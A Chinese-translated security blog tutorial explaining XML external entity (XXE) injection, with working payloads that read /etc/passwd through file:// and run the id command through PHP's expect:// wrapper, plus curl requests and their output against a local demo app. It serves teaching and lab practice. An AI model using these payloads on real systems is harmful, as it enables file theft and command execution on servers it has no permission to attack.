

# 利用 XXE 的弱点

> 原文：<https://itnext.io/exploiting-xxe-vulnerabilities-55b4bab7d1bd?source=collection_archive---------5----------------------->



> 原帖:[https://keiran . scot/2022/02/10/exploining-xxe-vulnerabilities/](https://keiran.scot/2022/02/10/exploiting-xxe-vulnerabilities/)

XML 外部实体注入(也称为 XXE)是一个 web 安全漏洞，使得攻击者能够干扰应用程序对 XML 数据的处理。它通常允许攻击者查看应用程序服务器文件系统上的文件，并与应用程序本身可以访问的任何后端或外部系统进行交互，对于 PHP，这可能导致命令执行。

# 那么什么是 XML 实体呢？

XML 实体是在 XML 文档中表示数据项的一种方式。有许多预定义的内部实体，例如,`&amp;`代表与符号(&),`&lt; and &gt;`分别代表<和>。这些字符如果直接放在 XML 文档中，可能会改变 XML 标记和数据，因此需要表示为实体。

# 什么是自定义实体？

XML 为我们提供了一种使用文档类型定义(DTD)来声明 XML 文档结构的方法。它为我们提供了在文档开头使用`DOCTYPE`元素提供定制类型的能力。

XML 还允许在定义 doctype 时使用`ENTITY`元素在 DTD 中定义定制实体。例如:

```
<!DOCTYPE demodoc [ <!ENTITY customentity "Hello World!" > ]>
```

这个文档定义将用字符串*“Hello World”*替换任何对`&customentity;`的引用。

# 什么是外部实体？

外部实体是一种自定义实体，它依赖于不属于 DTD 的定义。为了做到这一点，当我们定义一个实体时，我们可以使用`SYSTEM`关键字。例如:

```
<!DOCTYPE demodoc [ <!ENTITY customentity SYSTEM "http://keiran.scot" > ]>
```

有了这个定义，我们用定义的 url 内容替换了`&customentity;`引用。

如果您打算从 XML 处理器执行 SSRF 攻击，这非常有用

# 我们如何利用这一点？

当我们发现一个使用 XML 传输数据的目标时，我们可以拦截这个请求，或者提交一个修改过的 XML 文档，甚至是一个 SVG 或 DOCX，带有一个外部实体。

正如我们从前面所知道的，我们可以使用 SYSTEM 关键字定义一个外部实体来调用 URL，这有很多优点，并且使我们能够调用系统上注册的其他协议处理程序。

通过使用`file://`协议处理程序，我们可以提取系统中一个文件的内容。

例如，以下 XML 文档在传递给易受攻击的 XML 处理程序时，将读取/etc/passwd 的内容。

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
    <name></name>
    <email>&xxe;</email>
</root>
```

如果我们将此消息发布到易受攻击的应用程序，就会显示该文件的内容

```
$ curl -X POST -d @xml-document.xml http://localhost:8080
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
...
```

# 命令执行

大多数语言都没有从 XML 处理器执行操作系统命令的方法，但是对于 PHP，当 [expect 模块](https://www.php.net/manual/en/wrappers.expect.php)被启用时，情况会有所不同。

expect 模块注册了一个 PHP 包装器(`expect://`)，可以用来运行 OS 命令。

如果我们修改上面的 XML 文档来运行像`id`这样的操作系统命令，它将从命令中转储出`STDOUT`内容。

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [
    <!ENTITY xxe SYSTEM "expect://id">
]>
<root>
    <name></name>
    <email>&xxe;</email>
</root>$ curl -X POST -d @xml/exect.xml http://localhost:8080
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# 包扎

正如我们所了解的，可以使用外部实体利用 XML 来泄漏数据，在某些情况下，可以导致命令执行。

我已经将演示 PHP 应用程序和 Dockerfile 上传到了 [Github](https://github.com/affix/vulnerable-containers/tree/main/XXE) 上，所以你可以自己尝试一下，我还包含了一个用 python 编写的漏洞脚本。

如果你喜欢这个指南，请给我买杯咖啡吧！